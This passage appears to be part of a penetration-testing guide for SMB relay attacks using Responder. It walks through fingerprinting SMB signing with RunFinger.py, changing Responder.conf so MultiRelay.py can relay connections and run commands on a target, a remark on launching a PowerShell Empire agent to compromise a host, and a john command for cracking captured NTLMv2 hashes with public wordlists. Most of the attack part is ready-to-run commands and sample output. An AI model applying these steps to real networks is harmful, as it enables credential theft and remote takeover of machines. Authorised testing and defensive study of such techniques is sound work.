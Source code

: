 ##### Check the SMB Signing
The SMB Relay attack is inefficient on the hosts with the SMB Signing enabled. With the tool `RunFinger.py`, it is possible to fingerprint the targetted host's SMB configuration.

Exemple :
```
./RunFinger.py -i 172.16.11.172

Retrieving information for 172.16.11.172...
SMB signing: False
Null Sessions Allowed: True
Vulnerable to MS17-010: True
Server Time: 2018-07-11 19:21:24
OS version: 'Windows 7 Ultimate 7601 Service Pack 1'
Lanman Client: 'Windows 7 Ultimate 6.1'
Machine Hostname: 'XXXXXXX-PC'
This machine is part of the 'XXXXXXXXX' domain
```

##### Disable SMB and HTTP in Responder
If you intent to use an SMB/HTTP relay attack with an LLMNR/NBT-NS/MDNS poisoning, it is necessary to disable the SMB and/or HTTP services (because the python script `MultiRelay.py` will handle the incoming HTTP and SMB connections, and thus it needs to host the corresponding services)

In the Responder.conf file, configure the services as follows :
```
; Servers to start
SQL = On
SMB = Off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```

##### Launch MultiRelay.py

`sudo python MultiRelay.py -u ALL -t <target_ip> -c <command>`
NB: It is possible to launch a PowerShell command executing an Empire agent with this method, which is convenient for easily compromise an host.

##### Wait.
The waiting time depends on the type of attack in use (LLMNR/NBNS poisoning, SCF file, XSS, ...). 

## Go for the kill and crack the hashes
With john :
`john /path/to/Responder/logs/SMB-NTLMv2-SSP-xxx.xxx.xxx.xxx.txt -wordlist=/path/to/wordlist/rockyou.txt`

Wordlists :
 * https://github.com/danielmiessler/SecLists/tree/master/Passwords (recommended)
 * https://github.com/duyetdev/bruteforce-database
 * http://www.kali-linux.fr/forum/index.php?topic=2476.0 (never tried, but words in french)

